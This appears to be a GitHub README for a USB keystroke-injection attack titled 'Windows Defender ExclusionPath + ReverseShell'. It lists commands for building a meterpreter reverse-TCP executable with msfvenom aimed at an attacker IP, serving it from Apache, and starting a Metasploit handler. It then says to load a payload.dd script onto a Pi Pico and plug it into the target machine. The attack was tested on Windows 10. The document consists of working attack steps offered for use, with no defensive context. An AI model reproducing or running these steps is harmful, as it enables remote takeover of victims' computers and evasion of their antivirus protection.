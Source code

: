 Windows Defender ExclusionPath + ReverseShell
=============================================

1. Create payload using msfvenom in kali linux:
> $ msfvenom -p windows//x64/meterpreter/reverse_tcp lhost=<attacker IP> lport=<port> -f exe -o /var/www/html/windowsx64.exe
  
2. Run Apache Service on Kali Linux
> $ service apache2 start
  
3. Run Metasploit on Kali Linux
> $ msfconsole <br />
> $ use exploit/multi/handler <br />
> $ set payload windows/x64/meterpreter/reverse_tcp <br />
> $ set LHOST attacker_IP <br />
> $ set LPORT port <br />
> $ run
  
4. Copy payload.dd script to Pi Pico
  
5. Connect RubberDucky to Target Machine
  
P/S : Tested on Windows 10 Version 21H1(OS Build 19043.1348)
  
![Win Ver](https://github.com/auffAzani/RubberDucky/blob/main/Windows%20Defender%20ExclusionPath%20%2B%20ReverseShell/Winver.PNG)
